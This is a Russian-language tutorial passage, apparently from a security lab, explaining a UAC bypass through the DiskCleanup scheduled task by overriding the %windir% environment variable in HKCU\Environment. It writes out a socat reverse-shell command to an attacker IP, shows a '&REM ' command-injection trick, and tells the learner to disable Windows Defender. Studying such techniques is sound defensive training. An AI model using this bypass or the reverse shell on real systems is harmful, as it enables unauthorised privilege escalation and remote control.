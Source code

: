 Для следующей техники мы будем злоупотреблять запланированной задачей, которая может быть запущена любым 
пользователем, но будет выполняться с наивысшими привилегиями, доступными вызывающему. Запланированные задачи — это 
захватывающая цель. По замыслу они должны запускаться без какого-либо взаимодействия с пользователем (независимо от 
уровня безопасности UAC), поэтому запрос пользователя на повышение прав процесса вручную невозможен. Любые 
запланированные задачи, требующие повышения прав, получат его автоматически, без прохождения запроса UAC.

Пример: запланированная задача очистки диска
Примечание: Обязательно отключите Windows Defender для этой задачи, иначе у вас могут возникнуть некоторые трудности 
при запуске эксплойта.  Просто запустите предоставленный ярлык на рабочем столе вашего компьютера, чтобы отключить его.

Чтобы понять, почему мы выбираем «Очистку диска», давайте откроем Планировщик заданий и проверим конфигурацию задачи:

Здесь мы видим, что задача настроена на запуск с учетной записью Users, что означает, что она унаследует привилегии 
от вызывающего пользователя. Параметр Run with highest privileges будет использовать токен безопасности с наивысшими 
привилегиями, доступный вызывающему пользователю, который является токеном с высоким IL для администратора. Обратите 
внимание, что если обычный пользователь, не являющийся администратором, вызовет эту задачу, она будет выполнена 
только со средним IL, поскольку это токен с наивысшими привилегиями, доступный не администраторам, и, следовательно, 
обход не сработает.

Проверяя вкладки «Действия» и «Настройки», мы видим следующее:

Задачу можно запустить по требованию, выполнив следующую команду при вызове:

` %windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%`

Поскольку команда зависит от переменных среды, мы могли бы внедрять команды через них и выполнять их, запуская 
задачу DiskCleanup вручную.

К счастью для нас, мы можем переопределить %windir% переменную через реестр, создав запись в HKCU\Environment. Если мы 
хотим выполнить обратную оболочку с помощью socat, мы можем установить  %windir%  следующее (без кавычек):

`cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM `

В конце нашей команды мы добавляем "&REM " (заканчивающийся пробелом), чтобы прокомментировать то, что ставится 
после %windir% при расширении переменной среды, чтобы получить окончательную команду, используемую DiskCleanup. 
Результирующая команда будет такой (обязательно замените свой IP-адрес, где это необходимо):

`cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM \system32\cleanmgr.exe /autoclean /d %systemdrive%`
